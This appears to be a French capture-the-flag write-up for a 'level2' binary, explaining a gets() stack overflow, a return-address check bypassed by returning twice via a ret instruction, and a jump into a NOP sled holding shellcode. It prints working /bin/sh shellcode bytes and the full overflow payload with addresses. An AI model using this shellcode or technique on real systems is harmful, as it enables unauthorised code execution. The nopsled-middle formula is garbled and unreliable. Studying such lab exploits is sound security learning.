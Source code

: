 
## Level 2

En dessasemblant le binaire level2, on trouve deux fonctions:

`main()` qui fait un simple appel a `p()`.

`p()` déclare un tableau de 76 bytes.
La fonction va lire sur l'entrée standart avec l'appel `gets()`qui est vulnérable, et stocker le resultat dans ce
tableau `src`.

![image](https://user-images.githubusercontent.com/29956389/94676129-271acc00-031b-11eb-8e8e-b462d6902a54.png)

Ensuite un pointeur est déclaré a l'adresse `[ebp + 0x4]`.
Une opération binaire est éffectué sur cette adresse, une condition est ensuite vérifié:

Si la condition est vrai, le programme affiche l'adresse du pointeur et quitte.

Si la condition est fausse, la chaine de caractère est affiché et copié, puis la
fonction quitte.

Le pointeur [ebp + 0x4] est en dehors de notre stackframe, la condition vérifie donc si un overflow a modifié l'adresse a cette adresse, qui est l'adresse de retour a laquelle la fonction sautera a la fin de l'execution.

Comme la condition vérifie que le premier byte qui overflow le tableau commence
par `0xb (adresse de stack)`, on ne peut pas directement placer l'adresse de notre
nopsled dedans (Qui serait d'habitude soit sur la stack, soit dans l'environement).

Par contre, on peut y déclarer toute autre valeur, comme par exemple l'adresse
de l'instruction `return` de cette fonction meme fonction. Cela nous permetra de retourner deux fois de la fonction: une premiere fois pour passer la verification, puis une deuxieme fois pour aller a notre shellcode. c'est pourquoi il faut bien ecrire l'adresse du millieu de notre nopsled ensuite.

Le calcul a effectuer pour avoir l'adresse du millieu de notre nopsled est le suivant : 
 - Adresse variable SHELLCODE + (Adresse variable SHELLCODE+ 1 - Addresse variable SHELCODE) / 2

Soit `[80 bytes pour remplir le buffer] + [Adresse instruction ret de la fonction p()] + [Adresse millieu du Nopsled]`.

En code:

`echo -ne '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' > /tmp/shellcode.bin`

`export SLEDCODE=$(python -c 'print "\x90"*128')$(cat /tmp/shellcode.bin)`

`python -c 'print "B"*80 + "\x3e\x85\x04\x08" + "\x10\xf9\xff\xbf"' > /tmp/buffer`

`cat /tmp/buffer - | ./level2`

Et on obtient un shell!
